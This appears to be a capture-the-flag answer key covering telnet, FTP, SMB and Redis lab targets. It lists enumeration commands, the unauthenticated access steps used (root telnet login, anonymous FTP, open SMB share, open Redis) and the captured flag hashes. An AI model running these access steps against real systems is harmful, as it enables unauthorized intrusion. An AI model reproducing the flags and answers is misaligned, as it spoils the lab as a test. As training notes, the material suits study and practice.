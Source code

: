 # telnet
virtual machine
terminal
openvpn
ping
nmap
telnet
root

telnet -l root ip_target
b40abdfe23665f766f9c61ecba8a4c19

# ftp
file transfer protocol
21
sftp
ping

nmap -sC -sV -p21 ip_target
vsftpd 3.0.3
Unix
ftp -h

ftp ip_target; Anonymous
230

ls
get

ftp ip_target; Anonymous
get flag.txt
035db21c881520061c53e0536e44f815

# smb
Server Message Block
445

nmap -sC -sV -p445 ip_target
microsoft-ds
-L

smbclient -L
4
WorkShares
get

smbclient //ip_target/WorkShares
get flag.txt
5f61c10dffbc77a704d76016a22f1664

# redis
6379

nmap -sC -sV -p6379 ip_target
redis
In-memory Database
redis-cli
-h
info

redis-cli -h ip_target
> info

SELECT

> info => cari yang namanya keyspace
4

KEYS *
GET flag
03e1d2b376c37ab3f5319922053953eb

##